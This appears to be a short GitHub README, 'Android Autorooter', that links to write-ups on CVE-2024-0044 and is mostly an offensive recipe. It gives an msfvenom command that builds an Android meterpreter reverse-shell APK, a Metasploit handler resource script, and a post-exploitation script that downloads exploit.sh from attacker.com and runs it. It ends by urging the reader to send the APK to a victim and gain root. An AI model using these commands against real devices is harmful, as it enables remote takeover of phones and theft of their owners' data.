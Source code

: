 

# Android Autorooter
[![Autorooter]](https://cdn.mos.cms.futurecdn.net/k7c2VW8eHbWtSaCgzLAa4P-320-80.jpeg)

This is just a mental note more than anything to further explore the posibilities of the work done here:
https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html
https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03
https://www.mobile-hacker.com/2024/06/17/exfiltrate-sensitive-user-data-from-apps-on-android-12-and-13-using-cve-2024-0044-vulnerability/

Ultimately I'd like to have a self executing exploit but babysteps yeah..

## Give this a try

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> R > payload.apk
```

Create a resource script execute_script.rc to automate the commands:
```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
exploit -j
set AutoRunScript multi_console_command -rc /path/to/commands.rc
```

Create the resource script with the necessary commands:
```
cd /data/local/tmp
wget http://attacker.com/exploit.sh -O exploit.sh
chmod +x exploit.sh
./exploit.sh
```

Start Metasploit with the resource script:
```
msfconsole -r execute_script.rc
```
Get the party started with:
```
msfconsole -r execute_script.rc
```

Now your listener/payload delivery is set up...  Send that payload.apk to the victim.. Lets get some root baby
